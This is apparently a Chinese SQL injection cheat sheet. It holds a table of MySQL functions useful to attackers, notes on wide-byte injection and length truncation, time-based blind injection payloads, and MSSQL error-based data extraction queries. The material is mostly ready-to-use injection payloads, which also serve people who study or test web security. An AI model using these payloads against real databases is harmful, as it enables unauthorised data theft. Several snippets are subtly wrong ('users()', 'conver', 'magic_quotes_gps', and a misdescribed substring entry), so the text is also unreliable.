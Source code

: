 函数						|		说明
---							|		---	
length						|	返回字符串长度
substring					|	截取字符串长度
ascii						|	返回acsii码
hex							|	把字符串转换为16进制
unhex						|	hex的反向操作
now							|	当前系统时间
floor(x)					|	返回不大于X的最大整数值
md5							|	返回MD5值
group_concat				|	返回带有来自一个组的连接的非NULL值的字符串结果
@@datadir					|	读取数据库路径
@@basedir					|	MySQL安装路径
@@version_compile_os	|	操作系统
user						|	用户名
current_user				|	当前用户名
system_user				|	系统用户名
database					|	数据库名
version					|	MySQL数据库版本

* MySQL宽字节注入

```
成因：编码不统一造成，一般只出现在PHP+MySQL中；
magic_quotes_gps=On

编码：%d5
```

* MySQL长字符截断

MySQL版本=5.1 并且 sql_mode=default

MySQL对于插入超过原本限制长度的值只会提示warning，而不是error，出现在web漏洞中的覆盖注册中。

* MySQL盲注

```
# 基于时间
select * from users where id=1 and sleep(3);
select * from users where id=1 and if(length(user())=0,sleep(3),1);
select * from users where id=1 and if(hex(mid(users(),1,1))=1,sleep(3),1);
```

### MSSQL
* 获取数据

利用错误消息提取信息

```
# 枚举表与列
select * from users where username='root' and password='root' having 1=1 --';
select * from users where username='root' and password='root' group by users.id having 1=1 --';

# 利用数据类型转换提取数据
select * from users where username='root' and password='root' and 1>(select top 1 username from users);
select * from users where username='root' and password='root' and 1=conver(int,(select top 1 users.username from users));
```

